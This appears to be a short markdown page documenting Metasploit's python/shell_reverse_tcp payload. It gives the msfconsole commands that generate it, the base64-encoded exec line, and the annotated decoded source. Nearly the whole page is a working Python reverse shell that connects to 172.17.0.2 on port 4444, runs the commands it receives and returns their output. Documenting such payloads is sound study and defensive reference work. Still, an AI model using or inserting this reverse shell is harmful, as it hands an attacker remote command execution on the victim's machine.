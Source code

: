 # python/shell_reverse_tcp (single payload)

Source: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/python/reverse_tcp.rb

## Generate
```
msf5 > use python/shell_reverse_tcp
msf5 payload(python/shell_reverse_tcp) > generate -f raw -o single.py
```

## Result
```python
exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uY29ubmVjdCgoJzE3Mi4xNy4wLjInLDQ0NDQpKQpPeD1GYWxzZQp3aGlsZSBub3QgT3g6CglkYXRhPXNvLnJlY3YoMTAyNCkKCWlmIGxlbihkYXRhKT09MDoKCQlPeD1UcnVlCglzdGRpbixzdGRvdXQsc3RkZXJyLD1vcy5wb3BlbjMoZGF0YSkKCXN0ZG91dF92YWx1ZT1zdGRvdXQucmVhZCgpK3N0ZGVyci5yZWFkKCkKCXNvLnNlbmQoc3Rkb3V0X3ZhbHVlKQo='.decode('base64'))
```

## Base64 Decoded Content
```python
import socket,os
so=socket.socket(socket.AF_INET,socket.SOCK_STREAM)   # create TCP socket
so.connect(('172.17.0.2',4444))                       # connnect to 172.17.0.2 on port 4444
Ox=False
while not Ox:
	data=so.recv(1024)                                  # recv cmd buffer
	if len(data)==0:
		Ox=True
	stdin,stdout,stderr,=os.popen3(data)                # exec cmd as subprocess
	stdout_value=stdout.read()+stderr.read()
	so.send(stdout_value)                               # return stdout/stderr
```
